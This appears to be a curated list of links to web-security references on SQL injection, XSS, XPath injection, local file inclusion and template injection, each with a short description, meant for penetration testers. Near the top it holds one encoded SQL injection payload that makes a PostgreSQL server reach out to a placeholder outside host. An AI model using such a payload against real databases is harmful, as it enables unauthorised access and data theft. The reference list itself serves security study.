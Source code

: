```http://localhost:9001/2018-06-01/runtime/invocation/next```
<br>```'||;COPY%20users(names)%20FROM%20'\\xpto.example.com\';||'```

https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet
<br># This repository contains a advanced methodology of all types of SQL Injection.

https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
<br># This SQL injection cheat sheet is an updated version of a 2007 post by Ferruh Mavituna on his personal blog. Currently this SQL injection cheat sheet only contains information for MySQL, Microsoft SQL Server, and some limited information for ORACLE and PostgreSQL SQL servers. Some of the samples in this sheet might not work in every situation because real live environments may vary depending on the usage of parentheses, different code bases and unexpected, strange and complex SQL sentences.

https://www.websec.ca/kb/sql_injection
<br># The SQL Injection Knowledge Base

https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
<br># Use our SQL Injection Cheat Sheet to learn about the different variants of the SQL injection vulnerability.

### XSS
https://rhynorater.github.io/postMessage-Braindump
<br># postMessage-related bugs have landed me some serious bounties during the past couple live hacking events. Here is a quick summary of what you need to know about postMessage.

https://www.gremwell.com/firefox-xss-302
<br># Forcing Firefox to Execute XSS Payloads during 302 Redirects.

https://trufflesecurity.com/blog/xsshunter/
<br># Truffle Security is proud to host a new XSSHunter.

### XPath Injection
https://book.hacktricks.xyz/pentesting-web/xpath-injection
<br># XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

https://devhints.io/xpath
<br># Xpath cheatsheet.

https://www.s4msecurity.com/2022/06/08/xml-xpath-injection-search-bwapp-level-low/
<br># This article subject XML/XPath Injection vulnerability on web app.

### LFI (Local File Inclusion)
https://bierbaumer.net/security/php-lfi-with-nginx-assistance/
<br># This post presents a new method to exploit local file inclusion (LFI) vulnerabilities in utmost generality, assuming only that PHP is running in combination with Nginx under a common standard configuration.

### SSTI (Server Side Template Injection)
https://www.youtube.com/watch?v=SN6EVIG4c-0
<br># Template Injections (SSTI) in 10 minutes

https://portswigger.net/research/server-side-template-injection
<br># Template engines are widely used by web applications to present dynamic data via web pages and emails. Unsafely embedding user input in templates enables Server-Side Template Injection, a frequently critical vulnerability that is extremely easy to mistake for Cross-Site Scripting (XSS), or miss entirely. Unlike XSS, Template Injection can be used to directly attack web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

https://github.com/epinna/tplmap
<br># Tplmap assists the exploitation of Code Injection and Server-Side Template Injection vulnerabilities with a number of sandbox escape techniques to get access to the underlying operating system.
```